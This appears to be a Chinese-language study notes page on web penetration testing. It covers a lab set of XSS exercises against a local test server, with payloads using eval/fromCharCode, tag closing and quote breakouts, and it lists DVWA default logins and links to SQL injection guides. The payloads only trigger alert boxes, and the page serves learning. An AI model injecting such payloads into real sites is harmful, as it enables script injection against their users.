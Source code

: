 `<script>eval(String.fromCharCode(97,108,101,114,116,40,39,99,104,101,110,105,101,39))</script>`

6、通过构造js脚本使标签闭合然后加入新标签,payload为

`</script><script>alert('chenie')</script>`

7、使用单引号绕过，尝试构造语句如下：

`';alert('chenie');'`

8、当测试提交一个地址的时候源码会显示出来一个链接，链接就是输入的链接，关键代码如上，payload为

`http://192.168.1.3:8080/xss3/xss/example8.php/[/url]"><script>alert('chenie')</script>"< "`

9、XSS直接在页面输出锚点id，构建一个带xss的锚点即可，payload为

`http://192.168.1.3:8080/xss3/xss/example9.php#alert(‘chenie’)</script)>`。

刷新网页后，即可弹窗



# 火狐配置

18个扩展让你的Firefox成为渗透测试工具                                

https://www.freebuf.com/sectool/11544.html?replytocom=52007

https://blog.csdn.net/qq_37865996/article/details/85564334

# sql注入

![image-20200401211603623](/blog.github.io/images/image-20200401211603623.png)

https://www.cnblogs.com/hzk001/p/12069553.html

# dvwa

DVWA默认的用户有5个，用户名密码如下（一个足以）：

admin/password

gordonb/abc123

1337/charley

pablo/letmein

smithy/password

**获取用户名密码：**

sql盲注：https://blog.csdn.net/qq_37865996/article/details/85564334

**dvwa用户名密码重置：**Database Setup重置数据库



# CSRF跨站请求伪造

